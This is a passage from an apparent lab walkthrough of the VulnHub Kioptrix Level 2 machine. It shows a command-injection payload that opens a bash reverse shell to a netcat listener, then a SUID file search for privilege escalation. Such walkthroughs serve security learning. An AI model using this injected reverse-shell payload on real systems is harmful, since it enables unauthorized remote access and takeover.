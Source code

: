 The input field allows to run any command on the target. We can use this input field to set up a reverse shell. 

[Online - Reverse Shell Generator](https://www.revshells.com/)

Using Netcat setup a Listener and pass a reverse shell to the input field.

```bash
# Netcat Listener
nc -nvlp 9000

127.0.0.1;/bin/bash -i >& /dev/tcp/10.0.2.15/9000 0>&1
```

![Web Application|560](images/vulnhub-kioptrix-lvl2/webapp-7.png)

![Netcat|580](images/vulnhub-kioptrix-lvl2/netcat.png)

This granted me access to the system. Next need to gain `root` access. 

### Gaining Root Access

I used the `find` command to look for files having the SUID bit set but got no results.

```bash
# Find files with SUID set and owned by root user
find / -type f -user root -perm -4000 -exec ls -l {} + 2> /dev/null
```

![Netcat|560](images/vulnhub-kioptrix-lvl2/netcat-2.png)
